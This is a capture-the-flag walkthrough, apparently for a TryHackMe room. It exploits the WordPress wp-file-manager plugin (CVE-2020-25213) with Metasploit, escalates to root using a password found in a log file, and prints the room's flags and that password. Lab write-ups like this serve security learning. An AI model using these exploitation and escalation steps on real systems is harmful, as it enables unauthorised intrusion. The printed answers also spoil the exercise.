 What is the CVE number for remote code execution vulnerability?
```
proxychains4 nmap --script http-wordpress-enum --script-args type="plugins",search-limit=1500 127.0.0.1

80/tcp open  http
| http-wordpress-enum: 
| Search limited to top 1500 themes/plugins
|   plugins
|     duplicator 1.3.26
|_    wp-file-manager 6.0


msf> search wp-file-manager
msf> exploit(multi/http/wp_file_manager_rce)
msf> info

CVE-2020-25213
```

What is the name of user that was running CMS?
```
use exploit/multi/http/wp_file_manager_rce
set lhost eth0
set rhosts 10.10.1.35
exploit

ps -aux
```

```
cth
```

What is the user flag?
```
cd /home/cth/
cat user.txt

THM{227906201d17d9c45aa93d0122ea1af7}
```

#### Privilege Escalation

**What is the user's old password?
```
cd /var/log
cat bash.log

G00dP@$sw0rd2020
```

**What is the root flag?**
```
ssh cth@10.10.1.35
sudo su - 
cat root.txt

THM{ad485b44f63393b6a9225974909da5fa}
```